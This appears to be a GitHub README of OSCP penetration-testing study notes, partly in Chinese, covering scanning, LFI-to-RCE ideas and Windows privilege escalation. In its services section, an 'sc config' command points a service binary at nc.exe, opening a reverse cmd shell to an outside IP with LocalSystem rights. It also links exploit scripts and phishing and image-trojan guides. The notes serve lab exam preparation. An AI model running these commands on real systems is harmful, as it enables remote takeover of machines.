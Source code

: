 # Learn OSCP

##### EXP

1. [01_lfi_phpinfo_exp.py](exps/01_lfi_phpinfo_exp.py)  利用 *LFI* 和 *PHPINFO* 到 *getshell*，[资料来源](https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf)



**Hack Bar**

- *Remember turn off the automatic updates*

- *Post request not work as excepted*





*Nikto* 用于发现 *Web Server* 的默认配置、不安全的配置文件和程序。

```BASH
# nikto -h x.x.x.x  // Default 80
# nikto -h x.x.x.x -p 443,80  // multiple ports
# nikto -h https://url   // protocol, host
# nmap -p80 192.168.0.0/24 -oG - | nikto -h -   // scan multiple hosts
```



##### LFI2RCE

- 通过包含 *Web Server* 或者 *ssh* 的日志
  - 用户有权限访问日志（大多数场景下是没有权限读取日志的）
  - 找到日志所在路径
    - *apache* */var/log/apache2/error.log*  */var/log/httpd-error.log*
    - *ssh /var/log/auth.log*
-  包含 *php://filter*  或 *php://input* 来实现
-  通过 *phpinfo.php* 和 *lfi* 来实现，[推荐资料](https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf)



1. [LFI2RCE](https://www.exploit-db.com/papers/12992)

#### Privilege Escalation for Windows


- [Windows Privilege Escalation Fundamentals](https://www.fuzzysecurity.com/tutorials/16.html)
- [AccessChk v6.12](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) 用于确认 *windows* 用户权限
- [msfvenom-cheat-sheet](https://nitesculucian.github.io/2018/07/24/msfvenom-cheat-sheet/)

- [Windows-pentest](https://github.com/ankh2054/windows-pentest) 包含有 *xp* 版本的 *accesschk*
- [Windows_Privesec](https://gist.github.com/sckalath/8dacd032b65404ef7411) 与  [Windows Privilege Escalation Fundamentals](https://www.fuzzysecurity.com/tutorials/16.html) 的 *Roll up Your Sleeves* 比较像
- [OSCP-Windows-privilege-escalation](https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html) 与 第一篇文章相比，条理更清晰，内容更精简， 建议结合起来使用。

#### Tips

##### SMB 信息收集

Server Message Block 协议对应的操作系统信息如下

- **SMB1** – Windows 2000, XP and Windows 2003
- **SMB2** – Windows Vista SP1 and Windows 2008
- **SMB2.1** – Windows 7 and Windows 2008 R2
- **SMB3** – Windows 8 and Windows 2012.

识别 SMB NetBIOS 服务（通常监听于 139 和 445 端口）

1. `nmap -v -p 139,445 -oG smb.txt x.x.x.1-254` 
2. `nbtscan -r  x.x.x.0/24`

3. enum4linux 该工具集成了 *smbclient*、*rpcclinet*、*net* 和 *nmblookup*

漏洞识别

```bash
root@kali:~# ls -l /usr/share/nmap/scripts/smb*

root@kali:~# nmap -v -p 139,445 --script smb-xxx x.x.x.x # 同时加载多个 NSE 脚本
```

[SMB-enumeration经典参考资料](https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html)



##### nmap 信息收集

```BASH
$ nmap -v -sV -sT --top-ports 10 --open x.x.x.x  # 快速扫描 top 10 端口

```



##### 路径信息收集

```shell
# gobuster dir -u http://X.X.X.X/ -w /mnt/hgfs/share/OSCP/SecLists/Discovery/Web-Content/common.txt   -s '200,204,301,302,307,403,500' -e  -t 50

# wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/big.txt --hc 404 http://10.11.1.22/FUZZ
```



#####  查看当前用户身份的方式

```vbscript
# 无法执行 whoami 以及 echo %username% 的场景
# 解决方案一
echo 1>who.ami
dir /q

# 解决方案二
# 上传 kali 中的 /usr/share/windows-binaries/whoami.exe 到服务器上
```



##### 文件上传的存放位置

`C:\RECYCLER ` 通常是可读写的目录，上传的 *exp* 建议放在这儿。



##### Bash 创建特殊的文件

```bash
touch ./-filename.txt
touch -- -filename.txt
rm ./-filename.txt
rm -- --filename.txt
```

##### 查找权限存在问题的的 services

*[accesschk](https://web.archive.org/web/20111111130246/http://live.sysinternals.com/accesschk.exe)* (*Windows XP*) 可用于判断 *servcies* 的权限，总是先执行 `/acceptula`。因为第一次执行该程序会弹窗，所以带入参数来确认弹窗。

```shell
# 建议每次从命令行执行accesschk时，都带上/accepteula

accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -ucqv SSDPSRV /accepteula
accesschk.exe -ucqv upnphost /accepteula



sc config upnphost binpath= "C:\Inetpub\Scripts\nc.exe -nv 10.11.0.120 2233 -e C:\WINDOWS\System32\cmd.exe"

sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net start upnphost

C:\"Documents and Settings"\Administrator\Desktop\proof.txt

```



##### 提权方式

1. 配置存在问题的 *services*
2. [*Exploiting environment variables*](http://techblog.rosedu.org/exploiting-environment-variables.html)
3. [restricted-linux-shell-escaping-techniques/](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/) 

##### 空闲时间

[社工钓鱼](https://null-byte.wonderhowto.com/how-to/hide-virus-inside-fake-picture-0168183/)

[图片木马](http://gv7.me/articles/2017/picture-trojan-horse-making-method/)


# ChangeLog
- 20190713 add 
- 20190711 update
- 20190710 init
